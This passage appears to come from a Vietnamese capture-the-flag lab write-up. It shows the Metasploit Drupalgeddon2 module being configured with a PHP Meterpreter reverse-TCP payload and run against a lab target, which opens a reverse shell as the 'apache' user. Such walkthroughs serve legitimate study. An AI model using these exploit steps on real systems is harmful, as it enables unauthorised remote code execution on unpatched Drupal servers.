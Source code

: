 Set local và target IP theo các `options` yêu cầu
```
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > options

Module options (exploit/unix/webapp/drupal_drupalgeddon2):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), see https://docs.metasploit.com/docs/using-m
                                           etasploit/basics/using-metasploit.html
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.190.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)

View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lhost 10.10.14.93
lhost => 10.10.14.93
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 10.10.10.233
rhosts => 10.10.10.233
```
`run` để bắt đầu chạy khai thác
```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 10.10.14.93:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 10.10.10.233
[*] Meterpreter session 2 opened (10.10.14.93:4444 -> 10.10.10.233:45174) at 2024-08-02 01:28:16 -0400

meterpreter > whoami
[-] Unknown command: whoami. Run the help command for more details.
meterpreter > shell
Process 13145 created.
Channel 0 created.
whoami
apache
```
Ta có được máy chủ web đang chạy với người dùng **apache**
